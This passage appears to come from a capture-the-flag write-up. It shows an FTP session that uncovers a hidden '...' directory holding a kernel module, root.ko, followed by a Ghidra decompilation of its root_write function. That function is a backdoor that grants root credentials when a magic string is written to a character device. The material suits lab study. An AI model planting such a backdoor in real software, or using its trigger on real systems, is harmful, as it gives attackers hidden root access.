 Did you see it? Read the folders again, this time more carefully. Still didn;t see it? Well, me neither. However, after reading that list a lot of times, I finally realised that ... is a user-created directory:

{% highlight bash %}
ftp> cd ...
250 Directory successfully changed.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 .
drwx------    4 1001     1004         4096 Feb 01  2019 ..
-rw-r--r--    1 0        0          399400 Feb 02  2019 root.ko
226 Directory send OK.
ftp> 

{% endhighlight %}

## Getting root.txt

After downloading root.ko, I opened it in ghidra and read the root_write function, which compared the data written to the character device with the magic string. You can find below a snippet of the code:

{% highlight c %}
/* WARNING: Could not reconcile some variable overlaps */

ssize_t root_write(file *f,char *buf,size_t len,loff_t *off)

{
  long lVar1;
  int iVar2;
  void *__s1;
  long lVar3;
  ulong uVar4;
  ulong extraout_RDX;
  long in_GS_OFFSET;
  char a [4];
  char b [5];
  char magic [8];
  
  __fentry__();
  lVar1 = *(long *)(in_GS_OFFSET + 0x28);
  a = 0x743367;
  b._0_4_ = 0x76317250;
  magic = 0x746f3052743067;
  b[4] = 0;
  __s1 = (void *)__kmalloc(extraout_RDX + 1,0x24000c0);
  if (__s1 == (void *)0x0) {
    printk(&DAT_00100358);
    uVar4 = extraout_RDX;
  }
  else {
    __check_object_size(__s1,extraout_RDX,0);
    _copy_from_user(__s1,buf,extraout_RDX & 0xffffffff);
    snprintf(magic,8,"%s%s",a,b);
    iVar2 = memcmp(__s1,magic,7);
    if (iVar2 == 0) {
      lVar3 = prepare_creds();
      if (lVar3 == 0) {
        printk("ttyRK: Cannot prepare credentials\n");
        uVar4 = 0;
        goto LAB_001000b9;
      }
      printk("ttyRK: You got it.\n");
